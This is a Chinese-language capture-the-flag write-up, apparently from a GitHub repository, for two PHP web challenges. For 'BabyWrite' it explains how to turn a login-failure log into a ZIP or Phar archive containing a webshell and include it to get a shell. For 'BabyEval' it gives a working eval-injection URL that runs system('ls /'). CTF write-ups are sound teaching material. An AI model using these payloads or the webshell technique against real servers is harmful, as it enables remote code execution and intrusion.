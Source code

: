 #### BabyWrite

灵感来源于: 
[XNUCA 练习靶场 WEB login](https://www.jianshu.com/p/fd9f38753078)

常规使用 php 的文件包含功能读取题目源码
发现题目逻辑为

当登陆失败的时候会将用户名和密码写入日志文件
要攻击一个服务器，其实目的就是要让它能执行原本逻辑中不存在的代码
而这里有 php 的文件包含功能，其中所包含的参数前半部分可控（意味着我们可以控制协议）
前半部分可控，后半部分添加 .php 
由于 php 版本为 7.0 ，因此并不能通过使用空字节来截断打开的文件名（5.3以下版本有效）
因此需要我们控制协议，恰好在 php 所支持的协议中，phar 与 zip 等用于压缩文件的协议是存在以 .php 结尾这种情况的
那么我们只需要再能控制文件内容即可
这里的日志记录功能恰好给了我们控制文件内容的机会
但是这里的日志存在固定的格式，也就是

事实上这种情况抽象为了文件的开头结尾可控中间部分为一固定字符串，并且开头部分为文件名

> unix环境高级编程

![图片发自简书App](http://upload-images.jianshu.io/upload_images/2355077-e1ca7bb3e00f0bce.jpg)

前半部分不能存在空字符串和slash

现在我们只需要研究一下 phar 别的 php 所支持的压缩协议的文件格式 找出一个符合目前要求的压缩格式并构造一个压缩了 webshell 的压缩包即可

问题转换为：构造符合要求的用户名和密码使得写入的日志文件满足以下两个条件: 
1. 一个合法的压缩包
2. 压缩包的二进制格式中需要包含字符串 “ => ”，并且以这个字符串将压缩包分割为两部分
3. 第一部分需要被作为文件名使用，因此需要满足文件名的要求
4. 压缩包保存的文件中包含 webshell

---
提供两种思路: 
1. 膜拜[@一叶飘零](http://skysec.top/)大佬, 一个非预期解法, 打 call 打 call
> 构造 ZIP 文件


2. 预期思路
> 构造 Phar 文件

参考 php 文档对 phar 文件的说明

进行如下构造

成功后，将文件转换为应该提交的用户名和密码两个参数进行提交即可生成对应的日志文件
然后进行包含即可 getshell

---
#### BabyEval
Exploit: 
```
http://localhost/?str=${eval($_REQUEST[c])}&c=system('ls /');
```
